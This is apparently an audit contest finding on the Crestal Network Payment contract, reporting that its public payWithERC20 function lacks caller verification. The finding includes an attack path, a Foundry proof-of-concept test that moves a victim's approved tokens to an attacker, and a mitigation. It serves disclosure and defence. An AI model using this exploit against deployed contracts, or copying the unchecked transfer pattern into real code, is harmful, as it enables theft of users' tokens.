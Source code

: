 Spicy Banana Cuckoo

High

# Unauthorized Token Transfers Due to Missing Caller Verification in PayWithErc20 function

### Summary


There is a missing caller verification in `payWithERC20` which will cause an unauthorized token transfer for users as an attacker will call the function to transfer tokens from any approved user to themselves.

### Root Cause


In `Payment.sol`, the `payWithERC20` [function](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25) is public and it lacks proper caller verification, allowing anyone to initiate transfers on behalf of users who have given approval to the contract.


### Internal Pre-conditions

1. A user needs to approve the contract to spend their ERC20 tokens (either an unlimited or excess approval).
2. The user's ERC20 token balance must be at least the amount specified in the attack.


### External Pre-conditions


None.

### Attack Path

1. A user approves the `Payment` contract to spend their ERC20 tokens.
2. An attacker calls `payWithERC20(address(erc20Token), amount, victimAddress, attackerAddress)`.
3. Since the contract does not check `msg.sender`, it allows the attacker to transfer tokens from the victim to themselves.
4. The attacker successfully steals the victim’s tokens.


### Impact


The affected users suffer a **complete loss of approved tokens**, as an attacker can drain their balance if they have given excessive or unlimited approvals to the contract.


### PoC


```solidity
function test_steal_user_token_upon_approval() public {
    address user = makeAddr("user");
    address attacker = makeAddr("attacker");
    deal(address(mockToken), user, 10000e18);
    vm.startPrank(user);
    mockToken.approve(address(blueprint), type(uint).max);
    vm.stopPrank();

    console.log("balance of user before attack:", mockToken.balanceOf(user));
    console.log("balance of attacker before attack:", mockToken.balanceOf(attacker));

    // try to steal tokens here
    vm.startPrank(attacker);
    blueprint.payWithERC20(address(mockToken), mockToken.balanceOf(user), user, attacker);
    vm.stopPrank();
    console.log("balance of user after attack:", mockToken.balanceOf(user));
    console.log("balance of attacker after attack:", mockToken.balanceOf(attacker));

    assertEq(mockToken.balanceOf(attacker), 10000e18);
}
```

### Mitigation

Add a check to ensure only authorised callers can execute `payWithERC20`, such as using `msg.sender == fromAddress` or implementing access control. And if its not intended to be used publicly, just change the visibility to internal/private.